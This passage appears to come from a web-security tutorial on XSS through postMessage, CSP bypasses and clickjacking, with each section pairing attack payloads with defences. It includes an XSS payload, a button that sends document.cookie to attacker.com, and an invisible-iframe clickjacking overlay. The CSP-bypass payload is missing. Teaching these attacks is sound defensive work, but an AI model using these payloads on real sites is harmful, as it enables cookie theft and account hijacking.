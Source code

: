 Many web applications use window.postMessage() to communicate between different origins, but some don’t validate the source.
🔴 Example: Vulnerable Code

window.addEventListener("message", (event) => {
    document.body.innerHTML += event.data; // ⚠️ Injecting unvalidated data!
});

🔥 Attack Payload

If a site listens to postMessage() from any origin, inject:

window.postMessage("<img src=x onerror=alert('XSS via postMessage')>", "*");

✅ How to Defend Against This?

    Validate the message sender

window.addEventListener("message", (event) => {
    if (event.origin !== "https://trusted-site.com") return;
    document.body.innerHTML += event.data;
});

Sanitize user input before inserting it

    document.body.innerHTML += DOMPurify.sanitize(event.data);

⚡ 3️⃣ Bypassing Content Security Policy (CSP)

Some websites use CSP to block inline scripts, but attackers find ways to bypass them.
🔴 Example: CSP Blocking script-src

Content-Security-Policy: default-src 'self'; script-src 'self'

This blocks inline scripts but allows external requests.
🔥 CSP Bypass Attack

Since inline scripts are blocked, use an SVG-based payload:


✅ How to Defend Against This?

    Block data: URLs in CSP

    Content-Security-Policy: default-src 'self'; object-src 'none'; script-src 'self' 'strict-dynamic';

    Remove xlink:href from user-generated SVGs.

⚡ 4️⃣ Exploiting Trusted Click Events (Clickjacking + XSS)

Some sites trust user clicks and automatically execute actions.
🔴 Example: Click Event XSS

If a website automatically executes an action when a button is clicked:

<button onclick="fetch('http://attacker.com?stolen='+document.cookie)">Click Me</button>

An attacker can trick users into clicking by hiding the button under another element using CSS opacity.
🔥 Clickjacking XSS Attack

<style>
iframe { opacity: 0; position: absolute; top: 0; left: 0; width: 100%; height: 100%; }
</style>
<iframe src="http://victim.com"></iframe>
